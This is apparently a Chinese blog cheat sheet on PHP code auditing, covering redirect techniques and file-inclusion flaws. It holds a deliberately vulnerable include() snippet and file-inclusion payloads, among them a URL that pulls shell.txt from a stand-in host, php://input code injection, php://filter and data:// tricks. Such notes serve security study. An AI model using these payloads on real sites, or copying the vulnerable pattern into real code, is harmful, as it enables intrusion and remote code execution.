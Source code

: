 ```yaml
---
title: PHP Code Review
date: 2016-03-15 00:19:17
tags: 代码审计
---
```


## 代码审计

### redirection/URL重定向
#### 1) META标签内跳转
```
<meta http-equiv="refresh" content="0.1; url=http://blog.safebuff.com/">
```
#### 2) Javascript跳转
```
<script>window.location.href = "http://baidu.cn/";</script>
<script>self.location = "http://baidu.cn/";</script>
<script>top.location = "http://baidu.cn/";</script>
<script>window.navigate("http://baidu.cn/");</script>   #只对IE系列浏览器有效
```
#### 3) header头跳转
```
<?php
    header("Location: http://baidu.cn/");
?>
```
### 本地文件包含
#### 1) include()/include\_once()，require()/require\_once()本地文件包含

> http://www.domain.com/test.php?mod=phpinfo

> http://www.domain.com/test.php?mod=phpinfo.php%00

```
<?php
    //test.php
    define("ROOT",dirname(__FILE__).'/');
    $mod = $_GET['mod'];    //可控
    include(ROOT.$mod.'.php');
?>
<?php
    //phpinfo.php
    phpinfo()
?>
```
#### 2) allow\_url\_include远程文件包含

```
#allow_url_fopen=On
#allow_url_include=On
remote.php?file=[http|https|ftp]://example.com/shell.txt
remote.php?file=php://input     #POST: <?php phpinfo();?>
remote.php?file=php://filter/convert.base64-encode/resource=webshell.php
remote.php?file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8+
remote.php?file=zip://D:/apache/www/htdocs/test.jpg#phpinfo.php     //phpinfo.php压缩命名为test.jpg
```
